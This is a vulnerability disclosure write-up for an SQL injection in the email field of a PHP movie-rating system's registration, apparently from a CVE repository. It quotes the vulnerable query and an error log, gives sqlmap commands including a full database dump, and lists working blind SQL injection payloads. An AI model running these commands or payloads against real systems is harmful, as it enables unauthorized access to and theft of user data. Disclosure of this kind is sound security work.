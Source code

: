 # SQL Injection vulnerability was discovered in Sourcecodester's Sentiment Based Movie Success Rating Prediction System  (user registration)

Official Website: https://www.sourcecodester.com/php/15104/sentiment-based-movie-rating-system-using-phpoop-free-source-code.html

Version: 1.0
Related Code file: /msrps/classes/Users.php

---
## CVE-2024-XXXX
```
$chk = $this->conn->query("SELECT * FROM `client_list` where email ='{$email}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
```
The email variable is directly inserted into the SQL query without any escaping or parameterization. An attacker could inject malicious SQL code by manipulating the email field. in (line number 135 of Users.php)

Injection parameter: email


Backend Verification for SQLi
---
```
127.0.0.1:46134 [500]: POST /msrps/classes/Users.php?f=save_client - Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'vunerableparam@mail.com'' at line 1 in /home/kali/Downloads/msrps/classes/Users.php:135                                                                                                                     
Stack trace:                                                                                                                                                
#0 /home/kali/Downloads/msrps/classes/Users.php(135): mysqli->query()                                                                                       
#1 /home/kali/Downloads/msrps/classes/Users.php(261): Users->save_client()                                                                                  
#2 {main}                                                                                                                                                   
  thrown in /home/kali/Downloads/msrps/classes/Users.php on line 135   
  ```
---
Step to Reproduce:
---

1. Go to login page and click on [Create a New Account]

![registeration](https://github.com/gurudattch/CVEs/blob/main/assets/4.png)

---

3. Fill the form and intercept the POST request in burp

![burp-image](https://github.com/gurudattch/CVEs/blob/main/assets/5.png)

---

4. Copy the **POST** request to notepad and save it.

![notepad](https://github.com/gurudattch/CVEs/blob/main/assets/6.png)

---

6. Now Run **sqlmap** on this request 

`sqlmap -r register_req.txt -p email`

__dump database;__

`sqlmap -r register_req.txt -p email --dump`

```
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND 4940=4940 AND 'oqjL'='oqjL&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND (SELECT 7178 FROM (SELECT(SLEEP(5)))MFQU) AND 'aOrZ'='aOrZ&password=password
---

```
